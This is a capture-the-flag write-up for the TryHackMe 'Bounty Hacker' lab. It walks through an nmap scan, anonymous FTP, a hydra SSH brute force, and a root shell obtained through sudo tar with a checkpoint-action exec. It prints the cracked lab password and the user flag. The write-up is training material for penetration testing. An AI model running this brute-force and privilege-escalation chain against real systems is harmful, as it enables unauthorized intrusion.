 ```yaml
---
description: May 18, 2025 - Xploit0x90
icon: flag
---
```


# Bounty Hacker  — May 18, 2025

<figure><img src="../.gitbook/assets/1,286 (1)qweqwe.png" alt=""><figcaption></figcaption></figure>

* Difficulty : <mark style="color:green;">Easy</mark>
* Link : [https://tryhackme.com/room/cowboyhacker](https://tryhackme.com/room/cowboyhacker)
* Creator : [Sevuhl](https://tryhackme.com/p/Sevuhl)

**Bounty Hacker** is a beginner-friendly Linux machine focused on practicing classic techniques like service enumeration, brute-force attacks, SSH exploitation, and privilege escalation via misconfigured binaries. This room helps solidify foundational skills that are applicable in real-world penetration testing scenarios.

***

### 🚀 Deploy the Machine

I joined the [Bounty Hacker](https://tryhackme.com/room/cowboyhacker) room and deployed the target VM. Once the machine was running, I took note of the IP address:

```
10.10.128.176
```

***

### 🔍 Enumeration

I began with a full port scan using `nmap` to identify any open TCP ports on the system:

```bash
nmap -p- 10.10.128.176 --open
```

#### ➤ Explanation:

* `-p-`: Scans all 65535 TCP ports.
* `--open`: Shows only ports that are open.

**Discovered open ports:**

* **21** - FTP
* **22** - SSH
* **80** - HTTP

<div align="left"><figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure></div>

***

I then performed a targeted scan for these ports to get additional details:

```bash
nmap -p 21,22,80 -sC -sV 10.10.128.176
```

#### ➤ Explanation:

* `-sC`: Runs Nmap’s default scripts.
* `-sV`: Attempts to detect service versions.
* `-p`: Scans specific ports.

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

***

### 🌐 Web Enumeration (Port 80)

Accessing the website:

```
http://10.10.128.176
```

The website was a basic HTML page containing messages referring to a hacker group. There wasn’t any login functionality or hidden directories visible.

***

### 📁 FTP Access (Port 21)

I tried logging in with anonymous FTP because the Nmap scan showed that the FTP service was open and might allow anonymous access.

```bash
ftp 10.10.128.176
```

Used credentials:

```
Username: anonymous
Password: [press Enter]
```

Login was successful.

#### ➤ Found two files:

* `task.txt`
* `locks.txt`

I downloaded both files using:

```bash
get task.txt
get locks.txt
```

<div align="left"><figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption><p>Note: This is not the complete list of passwords.</p></figcaption></figure></div>

<div align="left"><figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure></div>

⚠️ **Note:** Using `less` inside the FTP shell didn’t display the full contents of the file. That’s why it’s **always better to use `get` to download the file to your local machine**, then open it with tools like `cat`, `nano`, or `less` **locally** to ensure you see everything.

***

### 📄 File Inspection

#### `task.txt`:

This file contained a short to-do list, signed by someone named **lin**.

{% hint style="info" %}
📌 **TryHackMe Question 1 :**\
&#xNAN;**❓ Who wrote the task list?**\
✅ **Answer:** `lin`
{% endhint %}

#### `locks.txt`:

This file contained a long list of possible passwords — possibly for brute-forcing access to some other service.

{% hint style="info" %}
📌 **TryHackMe Question 2 :**\
&#xNAN;**❓ What service can you bruteforce with the text file found?**\
✅ **Answer:** `SSH`
{% endhint %}

***

### 🔓 Brute-force SSH (Port 22)

Using the possible username `lin` (from task.txt), I attempted to brute-force SSH using `hydra` and the password list from `locks.txt`.

```bash
hydra -l lin -P locks.txt ssh://10.10.128.176
```

#### ➤ Explanation:

* `-l lin`: Sets the username to `lin`.
* `-P locks.txt`: Loads password candidates from the list.
* `ssh://`: Targets the SSH protocol.

✅ **Hydra Output:**

```
[22][ssh] host: 10.10.128.176   login: lin   password: RedDr4gonSynd1cat3
```

{% hint style="info" %}
📌 **TryHackMe Question 3 :**\
&#xNAN;**❓ What is the user’s password?**\
✅ **Answer:** `RedDr4gonSynd1cat3`
{% endhint %}

<div align="left"><figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure></div>

***

### 🔑 Gaining Access via SSH

I used the discovered credentials to log in via SSH:

```bash
ssh lin@10.10.128.176
```

After logging in, I listed the contents of the home directory and found a flag file:

```bash
cat user.txt
```

{% hint style="info" %}
📌 **TryHackMe Question 4 :**\
&#xNAN;**❓ user.txt**\
✅ **Answer:** `THM{CR1M3_SyNd1C4T3}`&#x20;
{% endhint %}

<div align="left"><figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure></div>

***

### 🧱 Privilege Escalation

To see what commands I could run as `sudo`, I executed:

```bash
sudo -l
```

The output showed:

```
User lin may run the following commands on this host:
    (root) /bin/tar
```

This means I could run the `tar` command with **root privileges** without a password.

***

### 📦 Exploiting tar with GTFOBins

I visited [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) and found a known method to escalate privileges using `tar`.

I used the following command to spawn a root shell:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

#### ➤ Explanation:

* `--checkpoint`: Defines after how many files the action is triggered.
* `--checkpoint-action`: Executes the given command (in this case, a shell).

I verified the shell:

```bash
whoami
root
```

Navigated to the root user’s directory:

```bash
cd /root
ls
cat root.txt
```

{% hint style="info" %}
📌 **TryHackMe Question 5 :**\
&#xNAN;**❓ root.txt**\
✅ **Answer:** `XXXXXXXXXXXXXXXX`&#x20;
{% endhint %}

<div align="left"><figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure></div>

***

### 💡 Lessons Learned

* FTP servers with anonymous access can expose sensitive files.
* Always check file contents — even simple text files can provide usernames or passwords.
* Hydra is a powerful tool for brute-forcing services when you have good input lists.
* Always check `sudo -l` to find potential privilege escalation vectors.
* [GTFOBins](https://gtfobins.github.io/) is a goldmine for exploiting misconfigured binaries that have sudo privileges.
